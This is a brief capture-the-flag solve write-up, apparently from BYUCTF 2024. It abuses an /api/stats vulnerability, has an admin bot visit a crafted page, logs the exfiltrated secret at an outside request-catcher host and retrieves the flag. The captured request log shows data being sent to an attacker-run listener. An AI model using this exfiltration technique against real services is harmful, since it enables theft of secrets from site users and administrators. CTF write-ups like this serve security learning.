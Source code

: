 # Solve: 


Add a record use the vulnerbility in the /api/stats service to send the secret to a listener:

```
% python3.9 get_secret.py 
{"success": "Added", "id": "0e3a85f1-42f2-4084-ab8b-9bf99ec02c91"}
```

Make the admin visit the page:

```
Have the admin bot visit a page on this site
http://127.0.0.1:1337/api/stats/0e3a85f1-42f2-4084-ab8b-9bf99ec02c91
```
Get the secret from the respons:

```
request catcher
GET /test/log?data=948159a2b635668905b778606e5b1b0774820a4410d28782be1ad3f341eb4a76
2024-05-19T14:39:28+02:00
128.187.49.253
GET /test/log?data=948159a2b635668905b778606e5b1b0774820a4410d28782be1ad3f341eb4a76 HTTP/1.1
Host: myname.requestcatcher.com
Accept: */*
User-Agent: curl/7.88.1
```

Get the flag: 

```
python3.9 get_flag.py 

{"date": "Sun May 19 12:37:29 UTC 2024
byuctf{"not_a_problem"_YEAH_RIGHT}"}
```
